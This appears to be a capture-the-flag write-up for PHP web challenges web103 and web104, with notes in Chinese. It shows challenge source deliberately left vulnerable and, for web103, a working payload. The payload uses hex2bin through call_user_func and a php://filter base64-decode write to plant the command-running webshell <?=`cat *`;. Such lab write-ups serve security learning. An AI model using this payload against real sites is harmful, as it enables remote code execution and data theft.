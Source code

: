 ### web103

```php
<?php

highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    if(!preg_match("/.*p.*h.*p.*/i",$str)){
        file_put_contents($v3,$str);
    }
    else{
        die('Sorry');
    }
}
else{
    die('hacker');
}
?>
```

```
GET
v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-
decode/resource=2.php
POST
v1=hex2bin
```

```
115044383959474e6864434171594473  16进制
PD89YGNhdCAqYDs                   base64编码
<?=`cat *`;
```

### web104  sha1(）

```php
<?php

highlight_file(__FILE__);
include("flag.php");

if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2)){
        echo $flag;
    }
}
?>
```
